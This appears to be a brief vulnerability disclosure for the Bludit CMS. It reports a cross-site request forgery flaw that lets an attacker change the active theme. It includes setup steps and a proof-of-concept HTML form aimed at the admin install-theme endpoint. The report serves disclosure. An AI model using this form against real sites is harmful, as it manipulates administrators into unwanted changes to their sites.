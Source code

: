 # Description
The latest version of Bludit is vulnerable to a CSRF attack which allows a user to change the Activated Theme by sending a precrafted code to to the Admin
# POC
1:Download Bludit from https://github.com/bludit/bludit
2:Extract the zipfile to an Apache Server  
3:Enter the required Details and Login as Admin
Save the below Code as HTML
```
<form method="GET" action="http://localhost/bludit-master/admin/install-theme/alternative">
<input type="submit" >
</form>
```
There are two default Themes which are `Alternative` and `BlogX` 
if the admin clicks the submit button when the them BlogX is activated then the activated theme changes
